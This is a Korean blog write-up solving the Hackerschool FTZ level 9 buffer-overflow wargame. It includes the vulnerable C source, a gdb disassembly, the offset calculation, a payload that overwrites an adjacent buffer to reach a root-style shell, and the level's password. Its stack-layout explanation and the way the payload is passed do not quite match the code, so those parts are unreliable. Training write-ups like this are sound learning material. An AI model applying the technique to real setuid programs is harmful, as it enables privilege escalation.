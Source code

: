 ```yaml
---
date: '2022-09-29'
before : '2022-09-28'
after : '2022-09-30'
title: '해커스쿨 FTZ 레벨 9'
categories: ['C-SEC', 'KOR', 'PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

레벨 9 이후부터는 본격적으로 해킹 공격 기법에 관한 문제들이 나온다!

### 1. level 9
 
드디어 첫(!) BOF...라고하기엔 너무 간단하지만, BOF문제다! cat hint를 실행하면 실행파일 소스 코드가 나온다. 일단 코드를 살펴보자.


또한 이 파일은 **Level 10**의 권한을 가지고 있다.

```
main(){

  char buf2[10];
  char buf[10];

  printf("It can be overflow : ");
  fgets(buf,40,stdin);

  if ( strncmp(buf2, "go", 2) == 0 )
   {
        printf("Good Skill!\n");
        setreuid( 3010, 3010 );
        system("/bin/bash");
   }

}
```

buf2[10]과 buf[10]이라는 배열이 있는데, buf배열을 밑에 fgets함수에서 40개를 받는다.
즉 오버플로우가 가능하단 소리다. buf2배열의 첫 두문자가 "go"인 경우에 password를
준다고 하니, 정확히 buf2와 buf 배열의 거리가 얼마나 되나를 살펴봐야한다.


실행권한은 없으니 복사해서 test.c를 만든다음 실행파일로 만들어서 한번 gdb로
디버깅해보자. gdb는 리눅스의 어셈블리 디버거로, 활용하기 위해서 약간의 공부는 필요할 수 있다.


일단 set disassembly-flavor intel을 콘솔창에 입력하자.


disassemble (함수이름)을 하면 저 main함수가 시작될 때의 전체적인 어셈블리 코드를 확인해 볼 수 있다. 

```
0x08048420 <main+0>:    push   ebp
0x08048421 <main+1>:    mov    ebp,esp
0x08048423 <main+3>:    sub    esp,0x28
0x08048426 <main+6>:    and    esp,0xfffffff0
0x08048429 <main+9>:    mov    eax,0x0
0x0804842e <main+14>:   sub    esp,eax
0x08048430 <main+16>:   sub    esp,0xc
0x08048433 <main+19>:   push   0x8048554
0x08048438 <main+24>:   call   0x8048350 <printf>
0x0804843d <main+29>:   add    esp,0x10
0x08048440 <main+32>:   sub    esp,0x4
0x08048443 <main+35>:   push   ds:0x8049698
0x08048449 <main+41>:   push   0x28
0x0804844b <main+43>:   lea    eax,[ebp-40]
0x0804844e <main+46>:   push   eax
0x0804844f <main+47>:   call   0x8048320 <fgets>
0x08048454 <main+52>:   add    esp,0x10
0x08048457 <main+55>:   sub    esp,0x4
0x0804845a <main+58>:   push   0x2
0x0804845c <main+60>:   push   0x8048569
0x08048461 <main+65>:   lea    eax,[ebp-24]
0x08048464 <main+68>:   push   eax
```

대충 보면, lea가 배열 생성과 관련되어있다는걸 알 수있다. Linux 같은경우는 
little Endian을 사용하므로, 거꾸로 올라간다. 따라서 밑에 있는게 buf배열
위에 있는게 buf2배열이라고 유추할 수 있다. 


둘의 차는  40- 24이므로 
둘의 거리는 16이 된다. (원래는 10이어야하지만, 더미데이터 등의 이유로 6바이트가
추가된듯 하다.)


quit로종료하고, 16개의 문자열 + go를 입력한다.
```
./attackme AAAAAAAAAAAAAAAAgo
```
비밀번호 : interesting to hack!

---
## Source

- 해커스쿨 FTZ
- Me!